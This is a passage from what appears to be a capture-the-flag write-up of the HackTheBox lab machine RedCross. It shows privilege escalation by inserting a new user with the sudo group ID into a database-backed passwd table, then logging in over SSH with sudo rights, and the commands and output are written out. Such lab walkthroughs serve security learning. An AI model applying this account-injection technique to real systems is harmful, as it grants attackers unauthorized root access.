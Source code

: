 ```

penel0xdf@redcross:~$ ls
haraka  user.txt

```

And I can grab `user.txt`:

```

penel0xdf@redcross:~$ cat user.txt 
ac899bd4...

```

## Shell As root

From penelope, there are three different paths to getting a shell as the root user:

![1554240903953](https://0xdfimages.gitlab.io/img/1554240903953.png)

### Path 1: sudoers Group

The method I originally used, and an unintended path was to go back into the database the same as before, and create another user, this time with the `sudoers` group, which is 27:

```

dff@redcross:~$ grep sudo /etc/group
sudo:x:27:

```

Create the user:

```

unix=> insert into passwd_table (username, passwd, gid, homedir) values ('sud0xdfer', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 27, '/home/penelope');
INSERT 0 1

```

Now ssh in:

```

root@kali# ssh sud0xdfer@10.10.10.113
sud0xdfer@10.10.10.113's password:
Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
sud0xdfer@redcross:~$ id
uid=2023(sud0xdfer) gid=27(sudo) groups=27(sudo)

```
